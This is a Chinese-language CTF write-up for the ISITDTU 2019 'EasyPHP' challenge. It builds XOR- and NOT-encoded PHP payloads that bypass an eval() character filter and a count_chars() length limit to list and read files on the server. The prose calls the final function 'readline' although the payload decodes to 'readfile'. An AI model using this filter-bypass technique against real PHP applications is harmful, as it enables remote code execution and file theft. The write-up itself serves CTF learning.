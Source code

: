 # [ISITDTU 2019]EasyPHP 异或RCE count_chars() 限制长度 通过 构造存在字符获取减小长度

这里有点南啊

首先是一个过滤数字 和一部分字母的eval

肯定是bypass了

这里直接取反phpinfo看看是否可行

```cobol
(~%8F%97%8F%96%91%99%90)();
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/60e5223046aa82171941a383c04bfcb1.png" alt="" style="max-height:536px; box-sizing:content-box;" />


成功执行 这里我们 这里过滤了 system等 使用 prin

```less
print_r(scandir(.))
 
这里 ()._ 4个字符是不可能缺少的 
 
 
printrscandir
 
这里发现重复的是 r n i
 
所以其实我们只需要将 其他p t  s 这些看看能不能获取到 上面3个即可
```

_r来执行

但是这里存在一个内容

```lisp
 
if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');
```

这里我们发现 需要字符不能超过13个 我们首先看看构造

print_r(scandir(.)) 需要多少个

```php
<?php
$_ = $_GET['_'];
echo strlen(count_chars($_,3));
```

这里有个问题

我们之前获取到的取反 其实都是通过 ~ 来获取的 所以这里无法体现

我们将我们的取反进行修改

```cobol
(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)
```

我们使用代码输出看看是不是我们需要的

```php
<?php
    $str = urldecode('%8F%8D%96%91%8B%A0%8D')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
    echo $str;
```

发现确实是 print_r 为什么我们需要这种格式呢 我们下面来看这个形式

```cobol
now = ['.','_','p','r','i','n','t','s','c','a','d','.']
for i in now:
    for j in now:
        if j == i :
            break
        for k in now:
            if k == j:
                break
            for m in now:
                if ord(j)^ord(k)^ord(m) == ord(i):
                    a ="{0}={1}^{2}^{3}".format(i,j,k,m)
                    # a = "{0}={1}^{2}^{3}".format(ord(i),ord(j),ord(k),ord(m))
                    print(a)
```



```cobol
t=n^i^s
s=n^i^t
s=t^i^n
s=t^n^i
c=r^p^a
c=n^i^d
c=s^t^d
a=r^p^c
a=c^p^r
a=c^r^p
d=n^i^c
d=s^t^c
d=c^i^n
d=c^n^i
d=c^t^s
d=c^s^t
```

那我们开始构造

首先print_r

```cobol
(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)
 
print_r
 
这里我们进行构造的选择t
 
(%8F%8D%96%91%91%A0%8D)^(%FF%FF%FF%FF%96%FF%FF)^(%FF%FF%FF%FF%8C%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF)
```

我们看看是不是我们构造的print_r

```php
<?php
    $str = urldecode('%8F%8D%96%91%91%A0%8D')^urldecode('%FF%FF%FF%FF%96%FF%FF')^urldecode('%FF%FF%FF%FF%8C%FF%FF')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
    echo $str;
```

发现确实是这样的

然后我们继续构造scandir

首先确定scandir的值

```cobol
(~%8C%9C%9E%91%9B%96%8D)
=
 
(%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)
```

然后开始继续构造

这里我们确定下来 使用 tad 这三个字符

所以我们在scandir 需要构造两个

```cobol
(%8C%9C%8D%91%91%96%8D)^(%FF%FF%8F%FF%96%FF%FF)^(%FF%FF%9c%FF%9C%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF)
```

发现也是ok的

```php
<?php
    $str = urldecode('%8C%9C%8D%91%91%96%8D')^urldecode('%FF%FF%8F%FF%96%FF%FF')^urldecode('%FF%FF%9C%FF%9C%FF%FF')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
    echo $str;
```

然后我们就可以继续测试了

```php
<?php
    $str = urldecode('%D1')^urldecode('%FF');
    echo $str;
 
 
%D1^%FF 构造出. 
 
最后的payload为
```

```cobol
((%8F%8D%96%91%91%A0%8D)^(%FF%FF%FF%FF%96%FF%FF)^(%FF%FF%FF%FF%8C%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(((%8C%9C%8D%91%91%96%8D)^(%FF%FF%8F%FF%96%FF%FF)^(%FF%FF%9c%FF%9C%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))((%D1)^(%FF)));
 
这里记得加括号
 
(print_r((scandir)(.))); 这种
```

然后我们去测试长度



<img src="https://i-blog.csdnimg.cn/blog_migrate/53842e21d10511f945389f8d3c8a2400.png" alt="" style="max-height:85px; box-sizing:content-box;" />


发现就12 我们进入尝试执行看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/f43c94e28792ea40efbf495ae258866d.png" alt="" style="max-height:324px; box-sizing:content-box;" />


然后这里使用 readline(end(scandir(.))) 即可

当然 这里需要重新获取字符串

```cobol
d=e^r^s
l=d^a^i
i=d^a^l
i=l^a^d
i=l^d^a
n=l^a^c
n=i^d^c
s=e^r^d
s=d^r^e
s=d^e^r
c=l^a^n
c=i^d^n
c=n^a^l
c=n^d^i
c=n^l^a
c=n^i^d
```

```cobol
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

这道题真的 思考时间过久了